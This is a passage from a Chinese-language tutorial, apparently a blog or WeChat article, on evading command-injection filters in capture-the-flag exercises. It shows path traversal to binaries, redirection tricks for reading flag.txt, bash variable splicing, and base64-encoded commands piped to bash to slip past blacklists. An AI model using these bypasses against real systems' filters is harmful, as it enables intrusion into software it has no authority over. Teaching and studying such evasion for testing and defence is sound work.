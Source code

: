 ### bin绕过  
```
/tmp/../bin/whoami

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBPPibzxfk5DmibHibrY6TnGjacwq6z5jc6Dh0I8x5RHLdJSLoeL3O4Nic1Q/640?wx_fmt=png&from=appmsg "")  
  
  
**4、重定向**  
  
**重定向字符 <** :用于将文件的内容作为输入提供给命令  
  
示例:  
  
cat  flag.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBHcnpKFxG9o1QwA6U5A7tp3icjQpTCOR6DwicVmZBcRnUgfyicdk34k8lw/640?wx_fmt=png&from=appmsg "")  
  
  
cat<flag.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBEP1a0MoFlnlMBfyiaIG4j58U6icjXNuYLBUZXibJzXRoXGQibDtTsSH4ibA/640?wx_fmt=png&from=appmsg "")  
  
**重定向字符 <>**：用于打开文件并同时进行读取和写入  
  
cat<>flag.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBFicj714bGgj4Kw5Sugp5xvMBCmJ8xU9JvWUPN7chX4Xj6O9QY4gFb5g/640?wx_fmt=png&from=appmsg "")  
### bash变量绕过  
```
c=ami;who$_  :$_代表前面一个命令的结果。

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBeofplY2bLCdM82oJBSm9oxSRT6D87OziaZvH0SaBZt3mYpCbZfjBBdQ/640?wx_fmt=png&from=appmsg "")  
  
### 黑名单绕过  
  
**1、base64编码**  
  
将 cat flag 进行编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBP6NTQRDybibnZXmO1yaR5LbhcicIh38nZppS07IrIP1MliccQjZAaSIqQ/640?wx_fmt=png&from=appmsg "")  
  
管道符|把前面指令执行的结果，变成后面指令的参数  
```
`echo "Y2F0IGZsYWc="|base64 -d`
 $(echo Y2F0IGZsYWc= | base64 -d)
echo Y2F0IGZsYWc= | base64 -d | bash

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBkjL0AAcicGO6X1lsfQicrrVUxYz5fD1Rqs1YGOp7Lc3D77Dq9N8Cu4tA/640?wx_fmt=png&from=appmsg "")  
  
